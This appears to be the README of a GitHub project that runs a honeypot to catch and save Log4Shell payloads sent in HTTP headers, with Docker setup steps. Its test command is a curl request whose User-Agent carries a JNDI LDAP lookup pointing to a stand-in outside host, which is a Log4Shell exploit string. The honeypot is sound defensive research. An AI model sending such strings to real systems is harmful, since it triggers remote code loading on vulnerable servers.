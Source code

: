 # log4shell-honeypot
Catch and download `log4shell` payloads sent within HTTP headers. Modified version of [Adikso's minecraft honeypot](https://github.com/Adikso/minecraft-log4j-honeypot)

## Setup
1. `git clone $repo`
2. `docker-compose up`
3. Send payloads within a http header to `$dockerip:$port`

To add additional honeypots on different ports, copy and paste an existing service within `docker-compose.yml`, changing the service name, and alter the ports within `ports` and `command`.
```bash
curl --user-agent '${jndi:ldap://lmao.com:1389/a}' http://localhost:80
```

Payloads are saved within `payloads/`

Logs are printed to the screen by default, but can be retreived with `docker inspect`. e.g: 
```bash
docker inspect --format='{{.LogPath}}' log4shell-honeypot_http_1 | xargs cat
```